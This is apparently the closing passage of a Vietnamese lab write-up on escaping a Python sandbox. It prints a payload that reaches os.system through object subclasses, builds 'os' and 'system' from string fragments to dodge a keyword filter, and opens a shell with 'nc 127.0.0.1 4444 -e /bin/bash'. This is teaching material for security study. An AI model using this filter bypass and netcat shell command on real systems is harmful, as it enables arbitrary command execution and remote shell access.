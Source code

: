 ```print(().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('nc 127.0.0.1 4444 -e /bin/bash'))```
YES. Nhưng để tránh keyword **os** đã bị cấm. Ta sẽ gọi đến nó bằng cách cộng 2 chuối “o” và “s”. Trong os gọi tiếp đến “system” và giờ có thể run os command tuỳ ý.

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/47.jpg)

Có rất nhiều payload khác cũng có thể giúp ta đạt được mục tiêu cuối cùng. Mọi người có thể tìm hiểu thêm và phân tích để hiểu rõ hơn.

Cảm ơn vì đã đọc tới đây!





